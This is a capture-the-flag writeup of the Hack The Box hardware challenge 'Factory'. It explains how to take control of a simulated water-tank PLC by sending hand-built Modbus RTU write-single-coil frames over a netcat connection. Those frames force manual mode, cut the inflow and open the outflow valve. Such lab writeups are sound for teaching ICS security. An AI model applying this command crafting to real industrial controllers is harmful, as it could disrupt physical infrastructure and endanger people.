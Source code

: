 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Factory"
date: 2025-01-26
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge: [Factory](https://app.hackthebox.com/challenges/factory)
- Category: Hardware
- Solve date: 2025-01-26

---
### Description

> Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.

### Provided files

- `PLC_Ladder_Logic.pdf`
- `interface_setup.png`

---
# modbus RTU frame

This is the way a [modbus](https://en.wikipedia.org/wiki/Modbus) frame looks like:

| Slave address | Function Code | Data          | CRC                                         |
| ------------- | ------------- | ------------- | ------------------------------------------- |
| 1 byte        | 1 byte        | 0 – 252 bytes | 2 bytes: 1 CRC low byte and 1 CRC high byte |

## Coil addresses (from png)

| Addr | Hex    | Coil                |
| ---- | ------ | ------------------- |
| 12   | 0xc    | in_valve            |
| 21   | 0x15   | out_valve           |
| 33   | 0x21   | start               |
| 9947 | 0x26db | manual_mode_control |
| 5    | 0x05   | cutoff              |
| 26   | 0x1a   | cutoff_in           |
| 52   | 0x34   | force_start_out     |
| 1336 | 0x538  | force_start_in      |

## Connecting to remote host

```sh
❯ nc 83.136.250.116 54224
Water Storage Facility Interface
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
```

Current settings:
```json
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
```

---

# What do we know?

We know that:
- the slave address is 0x52 (82 in decimal)
- "laptop-2" take care of the CRC.
- we need to configure "coils" with a modbus command
- we want the water to flow out since the sensors are messed up, so we *probably* want to set:
	- manual_mode_control -> manual_mode = 1
	- cutoff_in -> stop_in = 1
	- out_valve -> out_valve = 1
	- force_start_out = 1

## Compile modbus command

### Function
- Write Single Coil = 5 -> `0x5`

### Data
Address + on/off:
- `FF 00` = ON (1)
- `00 00` = OFF (0)

### Command

| Set these to ON     | Slave address | Function Code | Data        |
| ------------------- | ------------- | ------------- | ----------- |
| manual_mode_control | 52            | 05            | 26db + FF00 |
| force_start_out     | 52            | 05            | 0034 + FF00 |
| out_valve           | 52            | 05            | 0015 + FF00 |
| cutoff_in           | 52            | 05            | 001a + FF00 |

We will then send these commands:  `52050015FF00`, `520526dbFF00`, `52050034FF00`, `5205001aFF00`

This leave us the these settings (and the flag!):
```json
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 1, "flag": "HTB{14dd32_..._5y573m5}"}
```
